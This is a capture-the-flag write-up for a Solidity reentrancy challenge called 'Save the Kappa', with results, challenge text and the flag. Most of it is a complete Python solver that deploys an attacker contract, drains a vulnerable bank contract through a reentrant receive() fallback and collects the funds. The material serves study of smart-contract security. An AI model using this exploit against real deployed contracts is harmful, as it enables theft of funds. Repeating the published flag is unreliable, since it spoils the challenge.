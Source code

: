 # Save the Kappa

I absolutely love kappa.  
Therefore, taking inspiration from “Kappa's River Drift”(This is a proverb meaning “Even Homer nods”.), I devised a challenge where helping a kappa results in receiving cucumbers—their favourite food—as a token of gratitude.  
This challenge was created for author's own study.  

Special thanks for karriho. He helped establish this as a legitimate challenge and contributed to creating `solver.py`.

## Result
Solved: 40  
Points: 344

1st: Satoki(BunkyoWesterns)  
2nd: Quriosity(sknb)  
3rd: CEO OF FFF(Lil L3ak)

## Challenge
Kappa always swim in chains. However, due to a mysterious force, one kappa was swept away by the river. Rescue the kappa that was swept away and receive a treasure as a reward!  
`nc chal1.fwectf.com 8020`

Difficulty: medium  
Attachment:
* [VulnerableBank.sol](VulnerableBank.sol)  
* [Setup.sol](Setup.sol)

## writeup

Knowing the following will enable you to solve it:
* reentrancy, etc.

Below is the executable code:
```python solver.py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
save_the_kappa / solver.py
- Reentrancy(リエントランシー)攻撃で VulnerableBank(withdrawAll脆弱) を空にする。
- EIP-1559 / legacy 手数料の両対応（web3.py v5/v6 どちらでも動く）。
"""

import os
import sys
from web3 import Web3
from eth_account import Account
from solcx import compile_standard, install_solc, set_solc_version

RPC_URL   = os.getenv("RPC_URL", "http://127.0.0.1:8545")
BANK_ADDR = os.getenv("BANK_ADDR")
PLAYER_PK = os.getenv("PLAYER_PRIV")
STAKE_ETH = float(os.getenv("STAKE_ETH", "0.2"))  # 攻撃の初期デポジット(ETH)

if not BANK_ADDR or not PLAYER_PK:
    print("[!] BANK_ADDR / PLAYER_PRIV を環境変数で指定してください。")
    sys.exit(1)
if not PLAYER_PK.startswith("0x"):
    PLAYER_PK = "0x" + PLAYER_PK

BANK_ADDR = Web3.to_checksum_address(BANK_ADDR)

ATTACKER_SOURCE = r"""
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

interface IBank {
    function deposit() external payable;
    function withdrawAll() external;
}

contract ReentrancyKappa {
    IBank public bank;
    address payable public owner;
    uint256 public stake;

    constructor(address _bank) {
        bank = IBank(_bank);
        owner = payable(msg.sender);
    }

    function pwn() external payable {
        require(msg.sender == owner, "only owner");
        require(msg.value > 0, "no stake");
        stake = msg.value;
        bank.deposit{value: msg.value}();
        bank.withdrawAll();
    }

    receive() external payable {
        if (address(bank).balance > 0) {
            bank.withdrawAll();
        }
    }

    function drain() external {
        require(msg.sender == owner, "only owner");
        (bool ok, ) = owner.call{value: address(this).balance}("");
        require(ok, "drain failed");
    }
}
"""

def dual_raw_tx(signed):
    """web3.py v5(rawTransaction) / v6(raw_transaction) 両対応"""
    return getattr(signed, "rawTransaction", None) or getattr(signed, "raw_transaction", None)

def fill_fees(w3: Web3, tx: dict) -> dict:
    """
    チェーンがEIP-1559対応なら maxFeePerGas / maxPriorityFeePerGas を入れる。
    非対応なら gasPrice を入れる。
    既にどちらかが入っている場合は触らない。
    """
    # すでにfee指定があるなら何もしない
    if any(k in tx for k in ("maxFeePerGas", "maxPriorityFeePerGas", "gasPrice")):
        return tx

    latest = w3.eth.get_block("latest")
    base_fee = latest.get("baseFeePerGas")
    if base_fee is not None:
        # EIP-1559
        try:
            max_priority = w3.eth.max_priority_fee  # web3 v6: property
        except Exception:
            # フォールバック: 2 gwei
            max_priority = w3.to_wei(2, "gwei")
        max_fee = base_fee * 2 + max_priority
        tx["maxPriorityFeePerGas"] = int(max_priority)
        tx["maxFeePerGas"] = int(max_fee)
    else:
        # legacy
        tx["gasPrice"] = int(w3.eth.gas_price)
    return tx

def send_raw(w3: Web3, acct, tx: dict):
    """
    ローカル署名送信（EIP-1559/legacy自動対応）
    - nonce/chainId/gas を適切に埋める
    """
    tx = dict(tx)  # copy
    tx.setdefault("from", acct.address)
    tx.setdefault("chainId", w3.eth.chain_id)
    tx.setdefault("nonce", w3.eth.get_transaction_count(acct.address))
    tx.setdefault("gas", 1_500_000)
    tx = fill_fees(w3, tx)

    signed = acct.sign_transaction(tx)
    raw = dual_raw_tx(signed)
    txh = w3.eth.send_raw_transaction(raw)
    rcpt = w3.eth.wait_for_transaction_receipt(txh)
    if rcpt.get("status", 0) != 1:
        raise RuntimeError(f"tx failed: {rcpt}")
    return rcpt

def main():
    w3 = Web3(Web3.HTTPProvider(RPC_URL))
    assert w3.is_connected(), f"not connected to {RPC_URL}"
    acct = Account.from_key(PLAYER_PK)
    print(f"[+] player: {acct.address}")

    # コンパイル
    install_solc("0.8.26")
    set_solc_version("0.8.26")
    build = compile_standard({
        "language": "Solidity",
        "sources": {"Attacker.sol": {"content": ATTACKER_SOURCE}},
        "settings": {
            "optimizer": {"enabled": True, "runs": 200},
            "outputSelection": {"*": {"*": ["abi", "evm.bytecode.object"]}},
        },
    })
    abi = build["contracts"]["Attacker.sol"]["ReentrancyKappa"]["abi"]
    bytecode = build["contracts"]["Attacker.sol"]["ReentrancyKappa"]["evm"]["bytecode"]["object"]

    # 攻撃コントラクト deploy
    Attacker = w3.eth.contract(abi=abi, bytecode=bytecode)
    tx = Attacker.constructor(BANK_ADDR).build_transaction({"from": acct.address})
    rc = send_raw(w3, acct, tx)
    attacker_addr = Web3.to_checksum_address(rc["contractAddress"])
    print(f"[+] attacker: {attacker_addr}")
    attacker = w3.eth.contract(address=attacker_addr, abi=abi)

    # 攻撃前の残高
    before = w3.eth.get_balance(BANK_ADDR)
    print(f"[+] bank before: {w3.from_wei(before, 'ether')} ETH")

    # 攻撃開始（pwn + deposit）
    stake_wei = w3.to_wei(STAKE_ETH, "ether")
    tx = attacker.functions.pwn().build_transaction({"from": acct.address, "value": stake_wei})
    rc = send_raw(w3, acct, tx)
    print("[+] reentrancy done.")

    # 回収
    tx = attacker.functions.drain().build_transaction({"from": acct.address})
    send_raw(w3, acct, tx)

    after = w3.eth.get_balance(BANK_ADDR)
    print(f"[+] bank after : {w3.from_wei(after, 'ether')} ETH")
    if after == 0:
        print("[+] success: drained. Now press '3' in nc to get the flag.")
    else:
        print("[!] still not zero. Increase STAKE_ETH or gas if needed, and confirm Bank is withdrawAll-type.")

if __name__ == "__main__":
    main()
```

## flag

`fwectf{7h15_15_7h3_cucumber!}`
